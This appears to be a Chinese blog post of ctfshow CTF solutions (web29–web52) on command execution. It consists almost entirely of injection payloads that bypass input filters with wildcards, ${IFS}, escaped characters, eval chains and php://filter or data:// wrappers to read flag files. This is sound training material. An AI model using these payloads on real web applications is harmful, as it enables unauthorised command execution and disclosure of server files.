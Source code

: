 ```yaml
---
title: 命令执行刷题
date: 2025-01-11 10:20:52
tags:
    - "web"
    - "刷题"
    - 命令执行
categories:
    - Yohane-Mashiro
cover: https://avatars.githubusercontent.com/u/78677516?v=4
---
```


### web29
```payloads
?c=system("cat f???.php");
```

### web30
```payloads
?c=echo(`ls`);
?c=echo(`tac%20f*`);
```
或者
```payloads
?c=eval($_GET[1]);&1=system("tac%20flag.php");
```

### web31
```payloads
?c=eval($_GET[1]);&1=system("tac%20flag.php");
```
或者
```payloads
?c=echo(tac%09fla*); #使用tab来代替空格
```

### web32

使用语言结构，绕过（ 的过滤
常用的语言结构有：echo print include require isset unset

```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
利用文件包含的漏洞

### web33
```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
这个也利用文件包含的漏洞

### web34
```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
同上

### web35
```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
同上

### web36
```
?c=include%0a$_GET[sb]?%3E&sb=php://filter/convert.base64-encode/resource=flag.php
```
同上

### web37
```
?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
或者
c=data://text/plain,<?=system('tac fl*.*');?>
```
利用php伪协议

### web38
```
?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
或者
c=data://text/plain,<?=system('tac fl*.*');?>
```

### web39
```
?c=data://text/plain,<?=system("tac fla*.php");?>//
```

### web40
```
?c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```

下面这个是别人写的，比较好
```
题解，查看当前工作目录getcwd()，扫描当前目录及文件"scandir()"输出 为数组，flag.php 在倒数第二个个位置那就数组倒置array_revers()，变为正数第二，在使用next()函数指向从第一个指向第二个（及指向flag.php）,最后使用show_source（）查看文件的内容 ?c=print_r(show_source(next(array_reverse(scandir(getcwd())))));
url+?c=print_r(getcwd()); ===> /var/www/html
url+?c=print_r(scandir(getcwd())); ===> Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php )
url+?c=print_r(array_reverse(scandir(getcwd()))); ==> Array ( [0] => index.php [1] => flag.php [2] => .. [3] => . )
url+?c=print_r(next(array_reverse(scandir(getcwd())))); ==> flag.php
url+?c=print_r(show_source(next(array_reverse(scandir(getcwd()))))); ==> $flag="ctfshow{eca2e7df-d196-4b71-9632-ad4d32e194d3}";
```

### web41

可以使用两个不在正则匹配范围内的非字母非数字的字符进行或运算，从而得到我们想要的字符串
自己戳脚本
[这是参考](https://blog.csdn.net/miuzzx/article/details/108569080)

### web42

```
?c=cat flag.php%0a
?c=cat flag.php||
```

### web43

```
?c=strings flag.php||
```

### web44
```
?c=tac fl?g.???||
```

### web45
```
?c=tac${IFS}f???.php||
```

### web46
```
?c=tac<fl\ag.php||
```

### web47
```
?c=tac<fl\ag.php||
```

### web48
```
?c=nl<fla\g.php||
```

### web49
```
?c=nl<fla''g.php||
```

### web50
```
?c=mor\e<fla\g.p\hp||
```

### web51
```
?c=sor\t<fla\g.php||
```

### web52
```
?c=nl${IFS}fla\g.php||
```


--------
待补充